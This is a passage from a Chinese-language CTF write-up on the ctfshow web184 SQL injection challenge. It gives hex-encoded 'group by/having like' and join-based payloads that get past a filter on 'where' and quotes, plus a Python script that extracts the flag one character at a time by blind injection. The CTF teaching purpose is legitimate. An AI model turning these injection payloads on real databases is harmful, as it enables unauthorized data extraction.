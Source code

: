 ```python
            print(flag)
            break
```

![20220724235544](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220724235544.png)

## web184

同上, 但是没有过滤空格, 过滤了 where 和单双引号

可以用 `group by + having` 绕过, 单双引号中的字符转换成十六进制

```
tableName=ctfshow_user group by pass having pass like 0xxxxxx
```

脚本

```python
import time
import requests
import binascii

dicts=r'1234567890-{}qwertyuiopasdfghjklzxcvbnm'

flag = 'ctfshow{'



def tohex(string):
    str_bin = string.encode('utf-8')
    return binascii.hexlify(str_bin).decode('utf-8')


for i in range(1,64):
    for s in dicts:
        data = {'tableName': 'ctfshow_user group by pass having pass like 0x{}'.format(tohex(flag+s+'%'))}
        url = 'http://e99073fc-5cf5-472e-9f9e-96391bdb0140.challenge.ctf.show/select-waf.php'
        res = requests.post(url,data=data)
        if res.text.find('$user_count = 1') != -1:
            flag += s
            print(flag)
            break
```

![20220725121553](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220725121553.png)


网上有大佬给出 `join` 的方法, left / right join 都行, 但 inner join 不行

`tableName=ctfshow_user as a left join ctfshow_user as b on a.pass like 0xxxxx`

`tableName=ctfshow_user as a right join ctfshow_user as b on b.pass like 0xxxx`
